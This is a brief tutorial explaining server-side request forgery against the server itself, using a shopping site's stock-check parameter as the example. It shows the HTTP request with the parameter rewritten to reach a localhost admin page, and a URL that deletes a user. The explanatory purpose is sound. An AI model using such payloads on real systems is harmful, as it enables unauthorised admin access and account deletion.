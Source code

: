 Server side request forgery is a web application vulnerability that allows the server side aplication to make  HTTP requests to an arbitrary domain of the attacker's choosing.

#### SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.
This will typically involve supplying a URL with a hostname like 127.0.0.1 (a reserved IP address that points to the loopback adapter) or localhost.
for example:
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
````
The above shopping application checks its stock status by requesting various back-end REST APIs so the request goes into the "stockApi" variable through frontend HTTP requests and 
by modiifng the "stockApi" variable into "http://localhost/admin"
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
````
Now if u can delete a user by "http://localhost/admin/delete?username=user1"
